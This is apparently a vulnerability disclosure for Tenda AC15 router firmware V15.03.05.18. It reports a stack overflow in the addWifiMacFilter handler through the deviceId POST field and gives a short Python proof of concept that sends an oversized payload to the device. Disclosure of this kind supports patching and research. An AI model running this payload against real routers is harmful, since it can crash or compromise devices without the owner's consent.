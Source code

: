 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware has a stack overflow vulnerability in the `addWifiMacFilter` function. The `v9` variable receives the `deviceId` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v9` can trigger this security vulnerability.

![image-20240306161153603](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306161153603.png)

![image-20240314153409617](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314153409617.png)

![image-20240306161213302](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306161213302.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addWifiMacFilter"
payload = b"a"*1000

data = {"deviceMac": 1, "deviceId":payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314212218680](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314212218680.png)
